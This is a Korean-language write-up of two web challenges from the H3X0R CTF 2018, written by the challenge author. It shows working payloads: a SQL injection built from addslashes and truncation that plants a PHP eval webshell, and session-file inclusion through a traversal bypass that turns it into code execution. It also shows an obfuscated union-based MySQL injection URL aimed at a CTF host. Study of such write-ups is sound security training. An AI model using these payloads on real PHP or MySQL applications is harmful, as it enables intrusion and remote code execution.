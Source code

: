 # H3X0R CTF 2018 - Web Write-up (author : munsiwoo)

```
H3X0R CTF 2018 - goodaegi board, sqlgame revenge write-ups
Written by Siwoo Mun (munsiwoo)
```

## goodaegi board (490pts) - solver (1)

구대기 보드는 SQL Injection과 LFI, PHP 세션을 이용해 RCE하는 문제다.  
의도한 풀이의 전체적인 흐름은 SQL Injection으로 PHP 코드를 username에 넣어주고 가입한 계정으로 로그인해서  
LFI로 해당 계정의 세션을 포함시켜 RCE로 flag.php 읽어오는걸 의도했다. (Session to RCE)  
  
자세한 풀이는 아래를 참고하자  
  
--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join 함수에서 SQL Injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 두 번째 줄부터 네 번째 줄을 보면 addslashes를 거치고  
SQL Truncate Attack을 방어한다는 명분으로 문자열을 100자로 자르고 있다.  
  
addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

이유는 'a' * 99 뒤에 single quote가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고  
'a' * 99 + backslashes + single quote가 되면서 single quote가 잘리게 된다.  
  
즉 아래와 같은 꼴이 된다.  
  
``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 PHP 코드를 넣어주고 가입하면 된다

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login  
username : ``<? eval($_GET[x]);?>``  
password : ``a``  

---------------------------------------------
### PHP Session to RCE PoC

Session to RCE의 간단한 예시를 들어보면  
PHP에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?  
세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.  
우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.  
또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion한다면 RCE가 가능하다.  

* 세션 파일명 : ``sess_[random_string]`` 여기서 random_string은 클라이언트가 가지고 있는 PHPSESSID 값이다.  
ex) PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0; => sess_fqs54b8ies3uhuhlttlb3lq3d0  
  
단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 SQL Injection을 활용해야 한다.

--------------------------------------------
### LFI to RCE (session inclusion)
이제 세션에 PHP 코드를 넣는데 성공했다.  
LFI는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.  
해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // str to lowercase and remove whitespace
	$page = str_replace(chr(0), '', $page); // remove null byte
	$page = str_replace('../', '', $page); // remove '../'
	if(substr($page, -4, 4) == 'html') { // check extension
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.  
그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``  
  
RCE가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.

## sqlgame revenge (480pts) - solver (2)

MySQL Injection 문제다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
